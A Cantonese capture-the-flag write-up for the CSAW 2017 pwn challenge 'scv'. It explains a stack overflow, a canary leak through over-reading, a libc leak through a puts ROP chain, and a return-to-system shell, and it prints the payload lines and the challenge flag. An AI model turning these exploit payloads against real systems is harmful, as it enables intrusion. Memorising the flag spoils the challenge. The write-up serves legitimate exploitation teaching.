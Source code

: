 # CSAW 2017 pwn 100 scv

# 題目:


>                                         SCV
>            SCV is too hungry to mine the minerals. Can you give him some food?
>                                 nc pwn.chal.csaw.io 3764

>[scv](scv)

>[ibc-2.23.so](ibc-2.23.so)


呢題有少少煩,不過唔難

Checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
IO dump:

```
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>

```

有3個function:

1.入buffer

2.print buffer

3.exit


Ida code (由於好多廢話,所以淨係留重點)

```C++
                .
                .
 char buf; // [sp+10h] [bp-B0h]@6
                .
                .

   v23 = read(0, &buf, 248uLL);             .

```

有用嘅其實只有一/兩句,其他都係廢話

呢兩句identify 左有buffer overflow, buffer只有176 byte,但係可以讀248,仲唔死

asm code:

```asm
.text:0000000000400A96 buf             = byte ptr -0B0h
.text:0000000000400A96 var_8           = qword ptr -8
.text:0000000000400A96
.text:0000000000400A96                 push    rbp
.text:0000000000400A97                 mov     rbp, rsp
.text:0000000000400A9A                 sub     rsp, 0C0h
.text:0000000000400AA1                 mov     rax, fs:28h
.text:0000000000400AAA                 mov     [rbp+var_8], rax
.text:0000000000400AAE                 xor     eax, eax
.text:0000000000400AB0                 mov     rax, cs:stdout

```

我地知道canary 係rbp-8, 只要leak到canary,就可以任意寫return address, get shell

經過少少測試之後,會發現print buffer function會print多左8個位 or until \x00

我地知道嘅尾數係\x00, 所以我地只要寫到尾數做其他野就leak到canary

leak canary payload= payload='b'*167+'a'+'g'

只要將leak到嘅canary減0x67(g),就等於canary number

下一步就係leak libc address..

係之前d測試,除左發現會print多左8個位之外,我仲發現只要寫爛左canary,一禁exit 就可以stack check fail,姐係代表我地可以用exit return去其他return address,只要我地拎到canary, return address 就任我地寫

由於有nx,所以只可以rop + return to libc解決

由於係x64,x64有calling convention,puts係讀rdi嘅parameters,所以就一個pop_rdi_ret gadget mov puts or whatever got 入去,俾puts_plt print

Print 完再彈返去main

full gadget= pop_rdi_ret+PUTSGOT+PUTSPLT+main

```python

payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(PUTSGOT)+p64(PUTSPLT)+p64(main)

```


呢到要注意一樣野,main係要跳返去initial variable個部份,不過因為個process冇熄過,所以canary同libcbase係唔會改

拎晒libc_base 之後,加返d offset,係入buffer個個位入:

```python

payload='b'*167+'a'+p64(canary)+"\x90"*8+p64(pop_rdi_ret)+p64(libc_bin_sh)+p64(system)+p64(main)

```

禁exit 就會彈shell 

```
flag: flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}

```
